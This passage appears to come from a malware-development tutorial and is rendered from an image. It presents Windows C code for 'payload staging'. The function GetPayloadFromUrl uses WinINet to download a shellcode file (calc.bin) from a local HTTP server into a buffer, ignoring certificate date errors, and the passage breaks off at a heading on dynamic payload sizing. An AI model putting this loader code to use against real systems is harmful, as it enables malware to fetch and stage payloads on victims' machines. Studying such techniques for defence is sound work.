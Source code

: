 
```
InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);

```
### **Payload Staging - Code Snippet**

`GetPayloadFromUrl` is a function that uses the previously discussed steps to fetch the payload from a remote server and stores it in a buffer.


```
BOOL GetPayloadFromUrl() {

	HINTERNET	hInternet              = NULL,
			    hInternetFile          = NULL;

	PBYTE		pBytes                 = NULL;

	DWORD		dwBytesRead            = NULL;

	// Opening an internet session handle
	hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
	if (hInternet == NULL) {
		printf("[!] InternetOpenW Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Opening a handle to the payload's URL
	hInternetFile = InternetOpenUrlW(hInternet, L"http://127.0.0.1:8000/calc.bin", NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
	if (hInternetFile == NULL) {
		printf("[!] InternetOpenUrlW Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Allocating a buffer for the payload
	pBytes = (PBYTE)LocalAlloc(LPTR, 272);

	// Reading the payload
	if (!InternetReadFile(hInternetFile, pBytes, 272, &dwBytesRead)) {
		printf("[!] InternetReadFile Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	InternetCloseHandle(hInternet);
	InternetCloseHandle(hInternetFile);
	InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);
	LocalFree(pBytes);

	return TRUE;
}


```
### **Dynamic Payload Size Allocation**
